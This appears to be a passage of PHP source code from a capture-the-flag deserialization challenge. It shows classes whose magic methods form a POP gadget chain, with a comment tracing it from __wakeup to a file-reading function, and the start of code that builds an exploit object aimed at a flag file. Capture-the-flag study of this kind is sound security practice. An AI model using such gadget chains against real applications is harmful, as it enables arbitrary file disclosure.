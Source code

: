 		      public function __get($cc)
		      {
		          echo "give you flag : " . $this->flag;
		      }
		  }
		  
		  class Surrender
		  {
		      private $phone = 110;
		      public $promise = '遵纪守法，好公民~';
		  
		      public function __construct()
		      {
		          $this->promise = '苦海无涯，回头是岸！';
		          return $this->promise;
		      }
		  
		      public function __toString()
		      {
		          return $this->file['filename']->content['title'];
		      }
		  }
		  
		  class FileRobot
		  {
		      public $filename = 'flag.php';
		      public $path;
		  
		      public function __get($name)
		      {
		          echo "FileRobot:__get";
		          $function = $this->path;
		          return $function();
		      }
		  
		      public function Get_file($file)
		      {
		          $hint = base64_encode(file_get_contents($file));
		          echo $hint;
		      }
		  
		      public function __invoke()
		      {
		          $content = $this->Get_file($this->filename);
		          echo $content;
		      }
		  }
		  # User::__wakeup --> User::printName --> Surrender::__toString --> 
		  # FileRobot::__get --> FileRobot::__invoke --> FileRobot::Get_file
		  $filerobot = new FileRobot();
		  $filerobot -> filename = "/var/flag.php";
		  if(isset($_SERVER["argv"][1])) {
		      $filerobot -> filename = $_SERVER["argv"][1];
		      var_dump($_SERVER["argv"]);
		  }
		  $filerobot -> path = $filerobot;
		  